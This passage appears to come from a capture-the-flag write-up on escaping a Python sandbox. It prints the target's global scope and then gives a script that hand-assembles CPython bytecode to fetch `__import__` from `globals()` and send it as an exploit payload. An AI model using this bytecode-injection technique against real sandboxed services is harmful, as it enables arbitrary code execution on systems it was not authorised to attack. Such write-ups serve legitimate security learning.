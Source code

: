 ```
    for supporting Python development.  See www.python.org for more information., 'delattr': <built-in function delattr>, 'dict': <class 'dict'>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'enumerate': <class 'enumerate'>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'filter': <class 'filter'>, 'float': <class 'float'>, 'format': <built-in function format>, 'frozenset': <class 'frozenset'>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'help': Type help() for interactive help, or help(object) for help about object., 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'int': <class 'int'>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'license': Type license() to see the full license text, 'list': <class 'list'>, 'locals': <built-in function locals>, 'map': <class 'map'>, 'max': <built-in function max>, 'memoryview': <class 'memoryview'>, 'min': <built-in function min>, 'next': <built-in function next>, 'object': <class 'object'>, 'oct': <built-in function oct>, 'open': <built-in function open>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'property': <class 'property'>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'range': <class 'range'>, 'repr': <built-in function repr>, 'reversed': <class 'reversed'>, 'round': <built-in function round>, 'set': <class 'set'>, 'setattr': <built-in function setattr>, 'slice': <class 'slice'>, 'sorted': <built-in function sorted>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'sum': <built-in function sum>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'vars': <built-in function vars>, 'zip': <class 'zip'>}!
It's nice to meet you!
```

Now that we have the global scope as a dictionary, we can see that `__import__` is indeed present. But how do we access it? In Python code, this would be done with `globals()["__import__"]`, so we need to find a way of converting this into bytecode. It turns out that [`BINARY_SUBSCR`](https://docs.python.org/3/library/dis.html#opcode-BINARY_SUBSCR) is an operation that does exactly that. Since we need to pass a string to fetch a value from a dictionary, we use `put_on_stack("__import__")` to generate the corresponding bytecode:

```python
import sys

def put_on_stack(string):
    """
    Generate the bytecode required to put a single string
    onto the stack.
    """
    op = b""
    for n, i in enumerate(string):
        # LOAD_GLOBAL 0 (chr)
        op += b"t\x00"

        # LOAD_CONST n
        op += b"d" + bytes([ord(i)])

        # CALL_FUNCTION 1
        op += b"\x83\x01"

        if n != 0:
            # BINARY_ADD
            op += b"\x17\x00"
    return op

payload = b"t\x02\x83\x00"
payload += put_on_stack("__import__") + b"\x19\x00"

sys.stdout.buffer.write(b"QRSRARFGENGRLBHEFRYSLBHJRROERRRR"+payload+b"\n")
```
